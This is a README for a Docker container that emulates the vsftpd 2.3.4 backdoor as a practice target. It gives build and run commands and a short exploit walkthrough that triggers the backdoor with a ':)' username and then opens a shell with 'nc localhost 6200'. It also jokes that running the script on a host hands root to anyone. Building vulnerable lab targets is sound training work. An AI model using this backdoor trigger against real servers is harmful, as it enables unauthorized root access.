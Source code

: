 # VSFTPD Backdoor Container

This project implements a simulated VSFTPD server that allows the 2.3.4/5 backdoor vulnerability to be exploited.

## Hosting

This assumes you have a working docker install

build with `sudo docker build -t vsftpd:latest .`

then run `docker run -p 2121:21 -p 6200:6200 vsftpd:latest`

## Exploit

1. Connect to the server with an ftp client, e.g. `ftp localhost 21`
2. Provide a smiley face in the username, e.g. `user:)`
3. Provide any password
4. In a new terminal, initiate a connection to port 6200: `nc localhost 6200`
5. Congrats, shell achieved!

*Alternatively, just run the python script on your host machine. It will give everyone who triggers the backdoor root access to your system, but maybe that's what you're going for. Who am I to stop you?*